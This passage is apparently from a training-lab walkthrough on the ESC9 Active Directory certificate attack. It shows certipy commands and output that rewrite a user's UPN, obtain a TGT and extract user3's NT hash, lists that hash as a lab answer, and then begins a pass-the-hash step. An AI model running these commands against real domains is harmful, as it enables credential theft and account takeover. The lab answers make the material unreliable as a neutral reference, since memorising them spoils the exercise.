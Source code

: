 Code: shell

```shell
certipy account update -u blwasp@lab.local -p Password123! -user user2 -upn user2
```

```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-7vhyh3ar8o]─[~]
└──╼ [★]$ certipy account update -u blwasp@lab.local -p Password123! -user user2 -upn user2

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'user2':
    userPrincipalName                   : user2
[*] Successfully updated 'user2'
```

At last, utilizing the certificate, students need to use the `auth` command of `certipy` to request a TGT for `user3` and `Un-PAC-the-hash` within it; students will attain the NT hash `01b60104db80993eb9ead5d8f9127eec`:

Code: shell

```shell
certipy auth -pfx user3.pfx -domain lab.local
```

```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-7vhyh3ar8o]─[~]
└──╼ [★]$ certipy auth -pfx user3.pfx -domain lab.local

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: user3@lab.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'user3.ccache'
[*] Trying to retrieve NT hash for 'user3'
[*] Got hash for 'user3@lab.local': aad3b435b51404eeaad3b435b51404ee:01b60104db80993eb9ead5d8f9127eec
```

Answer: `01b60104db80993eb9ead5d8f9127eec`

# ESC9

## Question 3

### "Using user3's credentials, get the content of the flag at \\\\lab.local\\user3\\flag.txt"

Using the previously attained NT hash `01b60104db80993eb9ead5d8f9127eec` of `user3`, students need to `pass-the-hash` with `smbclient` to download the file from `//lab.local/user3/flag.txt`:

Code: shell
